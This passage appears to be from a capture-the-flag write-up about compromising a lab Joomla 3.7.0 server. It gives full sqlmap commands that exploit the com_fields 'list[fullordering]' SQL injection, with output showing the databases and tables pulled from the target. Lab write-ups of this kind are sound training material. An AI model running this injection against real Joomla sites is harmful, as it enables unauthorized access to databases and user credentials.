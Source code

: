 I checked the `/administrator` directory, which introduced me to this login page (Joomla admin login):

![](Pasted%20image%2020240530221143.png)

After trying some basic passwords, I decided to search an adequate exploit:

```shell
searchsploit Joomla 3.7.0
```

Which basically said to do this with `sqlmap`:

```shell
sqlmap -u "http://10.10.133.125/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --batch --random-agent --dbs -p list[fullordering]
```

> I added the `--batch` 'cuz I'm lazy

After waiting for literally *27* mins, I got the names of the databases:

```shell
[REDACTED]
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:36:48] [INFO] fetching database names
[22:36:48] [INFO] retrieved: 'information_schema'
[22:36:49] [INFO] retrieved: 'joomla'
[22:36:49] [INFO] retrieved: 'mysql'
[22:36:49] [INFO] retrieved: 'performance_schema'
[22:36:49] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

Then, I looked for the database `joomla`:

```shell
sqlmap -u "http://10.10.133.125/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --batch --random-agent -D joomla --tables --dump -p list[fullordering]

Database: joomla
[72 tables]
+----------------------------+
[REDACTED]
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```
